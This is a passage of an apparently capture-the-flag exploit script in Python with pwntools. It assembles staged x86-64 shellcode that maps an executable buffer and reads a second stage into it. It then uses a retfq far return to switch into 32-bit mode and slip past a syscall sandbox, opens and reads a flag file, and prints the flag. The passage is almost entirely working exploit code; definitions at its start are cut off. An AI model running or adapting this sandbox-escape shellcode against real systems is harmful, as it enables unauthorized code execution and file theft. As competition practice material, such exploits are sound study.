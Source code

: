 ```python
    /* mmap(0x40404040, 0x100, 7, 34, 0, 0) */
    mov rdi, 0x40404040
    mov rsi, 0x100
    mov rdx, 7
    mov r10, 34
    xor r8, r8
    xor r9, r9
    mov rax, 9
    syscall
'''

read_buf = '''
    /* read(0, 0x40404040, 0x100) */
    mov rdi, 0
    mov rsi, 0x40404040
    mov rdx, 0x100
    mov rax, 0
    syscall
'''

read_write_flag = '''
    /* read(fd(3), buf(0x40404200), count, (42)) */
    mov rdi, rcx
    mov rsi, 0x40404200
    mov rdx, 42
    xor rax, rax
    syscall
    /*write(1, buf(0x40404200), count(42)) */
    mov rdi, 1
    mov rax, 1
    syscall
'''

push_0 = 'push 0;'
nop = 'nop;'

push_buf = 'push 0x23; push 0x40404040;pop rax; push rax;'

code = b''
code += asm(push_0)
code += asm(mmap_buf)
code += asm(read_buf)
code += asm(push_buf)
code += asm(retfq)

#gdb.attach(p)

p.sendline(code)

code = b''
code += open_x86 + asm(retfq)
code += (0x40 - len(code)) * asm(nop)
code += asm(read_write_flag)

sleep(1)
p.sendline(code)

p.interactive()
```
